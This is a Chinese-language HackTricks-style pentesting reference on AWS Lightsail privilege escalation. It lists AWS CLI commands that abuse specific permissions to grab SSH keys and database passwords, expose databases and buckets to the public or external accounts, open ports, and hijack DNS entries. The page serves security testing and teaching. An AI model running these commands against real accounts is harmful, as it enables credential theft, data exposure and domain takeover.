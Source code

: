 # AWS - Lightsail Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Lightsail

有关 Lightsail 的更多信息，请参见：

{{#ref}}
../../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> 请注意，Lightsail **不使用属于用户的 IAM roles**，而是使用由 AWS 管理的账户，因此你无法滥用此服务来进行 privesc。不过，**敏感数据**（例如代码、API keys 和数据库信息）可能会出现在此服务中。

### `lightsail:DownloadDefaultKeyPair`

该权限将允许你获取用于访问实例的 SSH 密钥：
```
aws lightsail download-default-key-pair
```
**潜在影响:** 查找实例内的敏感信息。

### `lightsail:GetInstanceAccessDetails`

该权限将允许你生成 SSH 密钥以访问实例:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potential Impact:** 在实例内查找敏感信息。

### `lightsail:CreateBucketAccessKey`

此权限将允许你获取用于访问 bucket 的 key：
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**潜在影响：** 在存储桶中查找敏感信息。

### `lightsail:GetRelationalDatabaseMasterUserPassword`

此权限将允许你获取访问数据库的凭据：
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**潜在影响：** 在数据库中查找敏感信息。

### `lightsail:UpdateRelationalDatabase`

该权限将允许你更改用于访问数据库的密码：
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
如果数据库不是公开的，你也可以使用以下权限将其设为公开：
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Potential Impact:** 在数据库中发现敏感信息。

### `lightsail:OpenInstancePublicPorts`

此权限允许将端口向互联网开放。
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potential Impact:** 访问敏感端口。

### `lightsail:PutInstancePublicPorts`

此权限允许将端口开放到互联网。请注意，该调用会关闭任何在调用中未指定的已开放端口。
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potential Impact:** 访问敏感端口。

### `lightsail:SetResourceAccessForBucket`

该权限允许授予实例对 bucket 的访问，而无需任何额外凭证。
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Potential Impact:** 可能获得对包含敏感信息的存储桶的新访问权限。

### `lightsail:UpdateBucket`

有了此权限，攻击者可以授予其自己的 AWS 帐户对存储桶的读取访问权限，甚至将存储桶设为对所有人公开：
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potential Impact:** 可能获得对包含敏感信息的存储桶的新访问权限。

### `lightsail:UpdateContainerService`

拥有此权限时，attacker 可以通过 containers service 授予对 private ECRs 的访问权限。
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**潜在影响：** 从私有 ECR 获取敏感信息

### `lightsail:CreateDomainEntry`

拥有此权限的攻击者可以创建子域并将其指向自己的 IP 地址（subdomain takeover），或构造 SPF 记录，允许其从该域 spoof 邮件，甚至将主域名指向自己的 IP 地址。
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potential Impact:** 接管域名

### `lightsail:UpdateDomainEntry`

拥有此权限的攻击者可以创建子域名并将其指向他自己的 IP 地址 (subdomain takeover)，或伪造 SPF 记录，使他能够以该域发送伪造邮件，甚至将主域名指向他自己的 IP 地址。
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potential Impact:** 接管域名

{{#include ../../../../banners/hacktricks-training.md}}
